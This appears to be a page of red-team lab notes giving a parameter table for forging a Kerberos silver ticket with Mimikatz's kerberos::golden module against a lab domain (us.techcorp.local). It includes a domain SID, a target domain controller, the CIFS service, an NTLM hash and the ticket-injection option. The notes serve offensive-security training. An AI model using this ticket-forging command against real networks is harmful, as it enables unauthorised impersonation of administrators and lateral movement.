

# Content Lab15:

## Silver ticket creation table:

| parameter  | Description |
| ------------- | ------------- |
| kerberos::golden  | Name of module Mimikatz/Bettersafetykatz  |
| /User:Administrator  | Username for wich the TGT is generated  |
|/domain:us.techcorp.local| Domain FQDN|
|/sid:S-1-5-21-738119705-704267045-3387619857| SID of the domain|
|/target:us-dc.us.techcorp.local| Target server FQDN|
|/service:cifs| The SPN of service for wich TGS is to be created|
|/rc4:9ebf9c00ce2ce54af48fd03f4a7039c5| NTLM(RC4) hash of the service account. Use aes128 and aes256 for using AES keys|
|/id:500 /groups:512 | Optional User RID (default 500) and Group (default 513 512 520 518 519)|
|/ptt | injects the ticket on the current sessionprocess|
|/startoffset:0 |Optional when the ticket is available|
|/endin:600| Optional ticket lifetime (default 10 years)|
|/renewmax:10080| Optional ticket lifetime with renewwal (default 10 years)|
